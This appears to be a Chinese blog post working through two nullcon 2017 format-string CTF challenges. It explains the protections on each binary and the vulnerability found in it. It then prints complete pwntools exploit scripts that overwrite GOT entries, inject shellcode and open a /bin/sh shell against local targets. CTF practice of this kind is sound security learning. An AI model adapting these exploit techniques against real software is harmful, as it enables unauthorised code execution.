 ```yaml
---
layout: post
title: "2017 nullcon 两道格式化pwn题"
description: "格式化字符串pwn"
categories: [2018/05]
tags: [ctf,pwn]
redirect_from:
  - /2018/05/15/
---
```


> 忽然感觉有点久没有写pwn题，所以决定找几道pwn题来练手一下，推荐[ctfs](https://github.com/ctfs)，这里面收集了近几年的ctf题目。

* level1.bin

> checksec 看一下程序开启的保护，发现只有canary，并且还有一个RWE的段，应该是没有开启DEP  
> 用ida反编译看一下程序的代码，可以看到有两个漏洞，一个在search函数中printf格式化字符串漏洞，还有一个是delete函数中可以覆盖低地址两个字节的漏洞。不过后面的这个漏洞比较难以利用，所以选择第一个格式化字符串漏洞来做

&emsp;&emsp;&emsp;![2017-nullcon-level1](https://raw.githubusercontent.com/lm0963/lm0963.github.io/master/assets/images/screenshots/pwn/2017-nullcon-level1.bin-1.png)  
&emsp;&emsp;&emsp;![2017-nullcon-level1](https://raw.githubusercontent.com/lm0963/lm0963.github.io/master/assets/images/screenshots/pwn/2017-nullcon-level1.bin-2.png)

> 思路很明确了，就是覆盖got表中的地址，指向堆地址，从而执行自己的shellcode

```
from pwn import *

context.log_level='debug'
io=process('level1.bin')
gdb.attach(io)

def insert(name,bid):
    io.sendline('1')
    io.sendlineafter('name',name)
    io.sendlineafter('id',str(bid))

def search(query):
    io.sendline('3')
    io.sendlineafter('query',query)
    io.recvuntil('with: ')

insert('\x90'*0x40+asm(shellcraft.sh()),1)
search("%7$x")
heap=int(io.recvline(),16)
addr={0x804B028:heap+0x30}
payload=fmtstr_payload(11,addr,write_size='short')
search(payload)
print hex(heap)
io.sendline('1')
io.interactive()
```

* level2.bin

> checksec 查看一下，发现开启了canary还有DEP  
> ida反编译查看代码，发现和上一道题一样是printf格式化字符串问题，并且还有一个栈溢出问题，不过开启了canary不能直接覆盖返回地址

&emsp;&emsp;&emsp;![2017-nullcon-level2](https://raw.githubusercontent.com/lm0963/lm0963.github.io/master/assets/images/screenshots/pwn/2017-nullcon-level2.bin-1.png)

> for循环给了3次利用printf格式化字符串的机会（只用到两次）  
> 1.先获得libc基地址  
> 2.修改got上strlen的地址为system的地址,__stack_chk_fail的地址为validate的地址，溢出覆盖canary的值  
> 3.输入name为/bin/sh

```
from pwn import *

io=remote('127.0.0.1',9002)
io.sendlineafter('name','%'+str(20*4+2)+'$x')
io.sendlineafter('password','%x')
io.recvuntil('name: ')
libc=int(io.recvline(),16)-0x00DDDB6
system=libc+0x0040310
got_strlen=0x804B03C
got_stack_check=0x804B024
validate=0x8048BEA
addr={got_strlen:system,got_stack_check:validate}
payload=fmtstr_payload(11,addr,numbwritten=43,write_size='short')
io.sendlineafter('password',('Nullcon20170'+payload).ljust(0x60,'a'))
io.sendlineafter('name','/bin/sh')
print hex(libc)
print hex(system)
io.interactive()
```